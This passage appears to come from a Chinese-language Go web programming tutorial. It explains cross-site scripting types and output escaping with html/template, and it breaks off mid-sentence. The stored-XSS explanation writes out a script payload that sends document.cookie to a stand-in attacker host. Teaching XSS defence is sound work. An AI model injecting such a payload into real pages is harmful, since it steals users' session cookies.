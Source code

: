现在的网站包含大量的**动态内容**以提高用户体验，比过去要复杂得多。所谓**动态内容，就是根据用户环境和需要，Web 应用程序能够输出相应的内容**。动态站点会受到一种名为 “跨站脚本攻击”（Cross Site Scripting, 安全专家们通常将其缩写成 XSS）的威胁，而静态站点则完全不受其影响。

> XSS 的重点不在于跨站点，而在于脚本的执行。那么 XSS 的原理是：**恶意攻击者在 web 页面中会插入一些恶意的 script 代码**。当用户浏览该页面的时候，那么嵌入到 web 页面中script代码会执行，因此会达到恶意攻击用户的目的。那么 XSS 攻击最主要有如下分类：反射型、存储型、及 `DOM-based` 型。 反射性和 `DOM-baseed` 型可以归类为非持久性XSS攻击。存储型可以归类为持久性XSS攻击。
>
> 问题在于攻击者是如何插入恶意的 script 代码的？
>
> * **反射型**：攻击者通过电子邮件等方式将包含注入脚本的恶意链接发送给受害者，当受害者点击该链接的时候，注入脚本被传输到目标服务器上，然后服务器将注入脚本 "反射"到受害者的浏览器上，从而浏览器就执行了该脚本。常见的反射型 XSS 是**恶意链接**。
> * **存储型**：主要是将恶意代码上传或存储到服务器中，下次只要受害者浏览包含此恶意代码的页面就会执行恶意代码。比如我现在做了一个博客网站，然后攻击者在上面发布了一篇文章，内容是如下：`<script>window.open("www.gongji.com?param="+document.cookie)</script>` 如果我没有对该文章进行任何处理的话，直接存入到数据库中，那么下一次当其他用户访问该文章的时候，服务器会从数据库中读取后然后响应给客户端，那么浏览器就会执行这段脚本，然后攻击者就会获取到用户的cookie，然后会把cookie发送到攻击者的服务器上了。

攻击者通常会在**有漏洞的程序**中插入 JavaScript、VBScript、 ActiveX 或 Flash 以欺骗用户。一旦得手，他们可以盗取用户帐户信息，修改用户设置，盗取 / 污染 cookie 和植入恶意广告等。

对 XSS 最佳的防护应该结合以下两种方法：一是**验证所有输入数据**，有效检测攻击 (这个我们前面小节已经有过介绍)；另一个是**对所有输出数据进行适当的处理**，以防止任何已成功注入的脚本在浏览器端运行。

那么 Go 里面是怎么做这个**有效防护**的呢？Go 的 html/template 里面带有下面几个函数可以帮你转义：

* `func HTMLEscape (w io.Writer, b [] byte)` // 把 b 进行**转义**之后写到 w
* `func HTMLEscapeString (s string) string` // **转义** s 之后返回结果字符串
* `func HTMLEscaper (args ...interface {}) string` // 支持多个参数一起**转义**，返回结果字符串

将原先的示例程序做如下修改：

~~~go
func login(w http.ResponseWriter, r *http.Request) {
	fmt.Println("method:", r.Method)

	if r.Method == "GET" {
		t, _ := template.ParseFiles("login.gtpl")
		t.Execute(w, nil)
	} else {
		err := r.ParseForm()
		if err != nil {
			log.Fatal("ParseForm:", err)
		}
		fmt.Println("username:", template.HTMLEscapeString(r.Form.Get("username")))
		fmt.Println("passwrod:", template.HTMLEscapeString(r.Form.Get("password")))

		template.HTMLEscape(w, []byte(r.Form.Get("username")))
	}
}
~~~

如果我们输入的 username 是 `<script>alert()</script>`, 那么我们可以在浏览器上面看到输出如下所示：
